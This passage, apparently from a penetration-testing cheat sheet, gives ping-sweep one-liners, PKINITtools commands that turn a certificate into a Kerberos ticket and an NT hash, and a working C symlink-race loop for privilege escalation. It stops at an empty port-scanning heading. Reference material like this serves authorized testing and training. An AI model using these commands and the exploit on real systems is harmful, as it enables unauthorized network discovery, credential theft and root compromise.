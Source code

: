 ### Ping Sweep

#### On a Linux Operating System

```c
$ for ip in {1..254}; do (ping -c 1 <XXX.XXX.XXX>.${ip} | grep "bytes from" | grep -v "Unreachable" &); done;
```

#### On a Windows Operating System

```c
PS C:\> 1..255 | ForEach-Object { $ip = "<XXX.XXX.XXX>.$_"; if (Test-Connection -ComputerName $ip -Count 1 -Quiet) { $ip } }
```

#### With Meterpreter

```c
meterpreter > (for /L %a IN (1,1,254) DO ping /n 1 /w 1 <XXX.XXX.XXX>.%a) | find "Reply"
```

### PKINITtools

```c
$ python3 gettgtpkinit.py -cert-pfx <USERNAME>.pfx -dc-ip <RHOST> <DOMAIN>/<USERNAME> <USERNAME>.ccache
$ export KRB5CCNAME=<USERNAME>.ccache
$ python3 getnthash.py <DOMAIN>/<USERNAME> -key 6617cde50b7ee63faeb6790e84981c746efa66f68a1cc3a394bbd27dceaf0554
```

### plotting

Exploit race condition on linux by swapping file paths between 2 files very quickly (normal file, symlink to root owned file, swap, swap ,swap).

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

int main(int argc, char *argv[]) {
  while (1) {
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
}
```

### Port Scanning
